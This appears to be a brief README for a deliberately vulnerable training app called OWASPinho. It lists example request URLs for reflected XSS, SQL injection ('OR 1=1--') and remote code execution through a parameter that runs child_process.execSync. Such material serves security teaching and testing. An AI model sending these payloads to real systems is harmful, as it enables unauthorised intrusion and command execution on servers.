 # OWASPinho


## XSS
```
/?content=%3Cscript%3Ealert%281%29%3C%2Fscript%3E
```
## SQL Injection
```
/users?username=OR+1=1--&access-token=ASDASD
```
## RCE
```
/users/has-access?userId=1&resourceId=42&userAccessCheck=function(userId,%20resourceId)%20{%20return%20require('child_process').execSync('ls').toString();%20}
```